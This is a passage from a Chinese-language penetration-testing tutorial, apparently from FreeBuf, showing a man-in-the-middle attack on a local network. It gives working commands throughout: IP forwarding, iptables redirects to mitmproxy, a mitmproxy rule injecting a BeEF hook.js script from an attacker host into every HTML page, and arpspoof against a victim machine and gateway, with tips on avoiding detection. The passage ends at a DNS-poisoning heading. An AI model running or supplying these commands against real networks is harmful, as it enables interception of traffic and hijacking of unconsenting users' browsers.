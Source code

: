 ```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

使用iptables设置端口重定向

```
iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-port 8080

##下面这句是要mitmproxy来透明代理https协议（443）。
##这是需要条件的，需要受害方的浏览器中信任mitmproxy的CA证书，这基本是不可能的。所以建议下面的这一句不用运行

iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
```

笔者建议在玩中间人攻击时不要对https出手，因为很难成功，而且一旦失败（大部分时候，sslstrip已经没那么好用了），会导致受害方无法访问使用https的网站。容易被发现。

启动mitmproxy, 并设置在所有html respond 数据中插入beef勾子

```
mitmproxy --anticache --showhost -p 8080 --mode transparent -R ":~s:</body>:<script src='http://192.168.8.219:3000/hook.js' type='text/javascript'></script></body>"
```

[![18.png](https://image.3001.net/images/20180703/15306063232303.png!small)](https://image.3001.net/images/20180703/15306063232303.png)

运行上面这句会启动mitmproxy, 并把所有html respond 数据中把 </body> 替换成 <script src=’http://192.168.8.219:3000/hook.js‘ type=’text/javascript’></script></body>。

运行之后会是这样的：

[![19.png](https://image.3001.net/images/20180703/15306063511990.png!small)](https://image.3001.net/images/20180703/15306063511990.png)因为现在还没有数据经过mitmproxy，所以是空白的

下面要arp欺骗网关（192.168.8.1） 和 windows7(192.168.8.193),  欺骗之后 windows7 的流量都会到kali上。而上面的iptables 已经设置所有符合条件的流量（是tcp协议， 且是目标端口是80的数据包）都会转到mitmproxy监听的8080端口。

```
arpspoof -i wlan0 -t 192.168.8.193 192.168.8.1arpspoof -i wlan0 -t 192.168.8.1 192.168.8.193
```

运行完上面两句之后，就可以开始了。

用windows下的firefox 访问freebuf：

[![20.png](https://image.3001.net/images/20180703/15306081778960.png!small)](https://image.3001.net/images/20180703/15306081778960.png)

mitmproxy的控制台会有大量的输出， 所有的http流量都有记录。

[![21.png](https://image.3001.net/images/20180703/15306082449070.png!small)](https://image.3001.net/images/20180703/15306082449070.png)

这时候，windows的firefox 已经被钩住了， 查看一下beef 的管理界面：

[![23.png](https://image.3001.net/images/20180703/15306083093137.png!small)](https://image.3001.net/images/20180703/15306083093137.png)

### DNS下毒 
